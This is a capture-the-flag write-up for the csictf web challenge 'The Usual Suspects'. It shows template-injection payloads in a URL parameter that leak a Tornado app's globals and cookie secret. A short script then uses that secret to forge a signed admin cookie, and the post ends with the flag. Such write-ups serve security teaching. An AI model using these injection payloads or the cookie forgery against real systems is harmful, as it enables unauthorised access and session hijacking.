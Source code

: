 ```yaml
---
layout: post
title: "The Usual Suspects"
author: "anishbadhri"
tags: ['Web']
---
```


You may think I walk with no 'name' because it can be changed whenever I want. I am a 'person' whose 'secret' can never be found. Can you find this 'person's 'secret'?

[http://chall.csivit.com:30279](http://chall.csivit.com:30279)

## Solution

The website consists of a `<select>` with chocolate, vanilla and butterscotch. On selecting one and submitting, a message is displayed. 

On inspecting the url, it is seen that the parameter icecream is used as, `icecream={{chocolate}}`. This makes it clear that script injection can be done. By inserting some random string like `{{strawberry}}`, we can see that an error is thrown, but it is visible that the parameter is inserted into a `py` file. Thus, python scripts can be inserted as a parameter.

The python function `globals()` can be used to view all files. Inserting `{{globals().keys()}}`, a list of variables used in the code is obtained.
```python
dict_keys(['escape', 'xhtml_escape', 'url_escape', 'json_encode', 'squeeze', 'linkify', 'datetime', '_tt_utf8', '_tt_string_types', '__name__', '__loader__', 'chocolate', 'vanilla', 'butterscotch', 'application', 'secret', '__builtins__', '_tt_execute'])
```

The next step would be to find out which variable to use in this. On entering the webpage, a cookie called `admin` is set to `false`. This cookie is a Tornado cookie. To create a new token with `admin` as `true`, a secret key would be needed. This secret key is in the Tornado application object.

There is an `application` object as seen in the result of globals(). To find the members of this object, `dir(application)` can be sent as a parameter to the page.
```python
['__call__', '__class__', '__delattr__', '__dict__', '__dir__', '__doc__', '__eq__', '__format__', '__ge__', '__getattribute__', '__gt__', '__hash__', '__init__', '__init_subclass__', '__le__', '__lt__', '__module__', '__ne__', '__new__', '__reduce__', '__reduce_ex__', '__repr__', '__setattr__', '__sizeof__', '__str__', '__subclasshook__', '__weakref__', '_load_ui_methods', '_load_ui_modules', 'add_handlers', 'add_transform', 'default_host', 'default_router', 'find_handler', 'get_handler_delegate', 'listen', 'log_request', 'on_close', 'reverse_url', 'settings', 'start_request', 'transforms', 'ui_methods', 'ui_modules', 'wildcard_router']
```
With the `settings` object, passing `application.settings` returns the cookie secret. `'cookie_secret': 'MangoDB\n'`. This can be used to create a signed token of `admin` as `true`. 


**Solution Script**:
```python
import tornado.ioloop
import tornado.web
import time

class User(tornado.web.RequestHandler):

    def get(self):
        cookieName = "admin"        
        self.set_secure_cookie(cookieName, 'true')

application = tornado.web.Application([
    (r"/", User),
], cookie_secret="MangoDB\n")

if __name__ == "__main__":
    application.listen(8888)
    tornado.ioloop.IOLoop.instance().start()
```

## Flag
```
csictf{h3r3_i_4m}
```